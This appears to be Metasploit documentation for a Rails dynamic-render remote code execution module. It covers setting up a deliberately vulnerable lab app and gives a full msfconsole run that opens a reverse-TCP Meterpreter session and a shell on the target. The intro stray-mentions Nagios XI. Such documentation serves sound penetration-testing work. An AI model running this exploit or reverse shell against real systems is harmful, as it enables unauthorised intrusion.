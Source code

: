 ## Intro

Nagios XI is the enterprise version of Nagios, the monitoring software we love
and hate.

Rails is, well, rails.

> This module exploits the rendering vulnerability via a temporary file upload to pop a shell.

## Setup

**Download and setup the sample vuln application:**

- [ ] `sudo apt-get install -y curl git`
- [ ] `curl -L https://get.rvm.io | bash -s stable --autolibs=3 --ruby=2.3.1`
- [ ] `source ~/.rvm/scripts/rvm`
- [ ] `sudo apt-get install rubygems ruby-dev nodejs zlib1g-dev -y`
- [ ] `gem install rails -v 4.0.8`
- [ ] `git clone https://github.com/forced-request/rails-rce-cve-2016-0752 pwn`
- [ ] `cd pwn`
- [ ] `bundle install`
- [ ] Edit the config/routes.rb file and add `post "users/:id", to: 'user#show'`

Basically, you just need a POST endpoint for the temporary file upload trick. Now you can start the rails server and test the module.

- [ ] `rails s -b 0.0.0.0` or `rails s -b 0.0.0.0 -e production`

## Usage

### Typical Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
saturn:metasploit-framework mr_me$ cat scripts/rails.rc 
use exploit/multi/http/rails_dynamic_render_code_exec
set RHOST 172.16.175.251
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.16.175.1
check
exploit

saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/rails.rc 
[*] Processing scripts/rails.rc for ERB directives.
resource (scripts/rails.rc)> use exploit/multi/http/rails_dynamic_render_code_exec
resource (scripts/rails.rc)> set RHOST 172.16.175.251
RHOST => 172.16.175.251
resource (scripts/rails.rc)> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
resource (scripts/rails.rc)> set LHOST 172.16.175.1
LHOST => 172.16.175.1
resource (scripts/rails.rc)> check
[+] 172.16.175.251:3000 The target is vulnerable.
resource (scripts/rails.rc)> exploit
[*] Exploit running as background job.
[*] Started reverse TCP handler on 172.16.175.1:4444 

[*] Sending initial request to detect exploitability
msf exploit(rails_dynamic_render_code_exec) > [*] 172.16.175.251:3000 - Starting up our web service on http://172.16.175.1:1337/iUDaRVpz ...
[*] Using URL: http://0.0.0.0:1337/iUDaRVpz
[*] Local IP: http://192.168.100.13:1337/iUDaRVpz
[*] uploading image...
[+] injected payload
[*] 172.16.175.251:3000 - Sending the payload to the server...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 172.16.175.251
[*] Meterpreter session 1 opened (172.16.175.1:4444 -> 172.16.175.251:41246) at 2016-09-29 17:52:00 -0500
[+] Deleted /tmp/NhhGKCCIgwF

msf exploit(rails_dynamic_render_code_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 50809 created.
Channel 1 created.
$ id
uid=1000(student) gid=1000(student) groups=1000(student),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
$
```